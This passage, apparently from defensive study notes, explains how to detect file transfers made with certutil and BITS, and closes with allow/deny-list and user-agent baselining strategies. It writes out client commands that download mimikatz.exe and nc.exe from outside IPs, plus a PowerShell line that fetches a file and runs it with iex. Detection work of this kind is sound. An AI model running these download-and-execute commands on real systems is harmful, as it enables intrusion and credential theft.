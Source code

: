 **Client Commands:**
```cmd
certutil -urlcache -split -f http://10.10.14.55:8085/mimikatz.exe
certutil -verifyctl -split -f http://10.10.10.32/nc.exe
```

**Server Detection:**
```http
GET /nc.exe HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Accept: */*
User-Agent: Microsoft-CryptoAPI/10.0
```

### BITS Detection

**Client Commands:**
```powershell
Import-Module bitstransfer;
Start-BitsTransfer 'http://10.10.10.32/nc.exe' $env:temp\t;
$r=gc $env:temp\t;
rm $env:temp\t;
iex $r
```

**Server Detection:**
```http
HEAD /nc.exe HTTP/1.1
Connection: Keep-Alive
Accept: */*
Accept-Encoding: identity
User-Agent: Microsoft BITS/7.8
```

## Detection Strategies

### 1. Binary Whitelisting/Blacklisting

**Whitelist Approach:**
- Create list of approved binaries for file transfers
- Monitor for any transfers using non-approved binaries
- More restrictive but more secure

**Blacklist Approach:**
- Maintain list of binaries known to be used maliciously
- Monitor for usage of blacklisted binaries
- Easier to implement but less comprehensive

### 2. User Agent Anomaly Detection

**Baseline Creation:**
- Document all legitimate user agents in environment
- Include operating system processes and updates
- Regular updates to baseline as environment changes

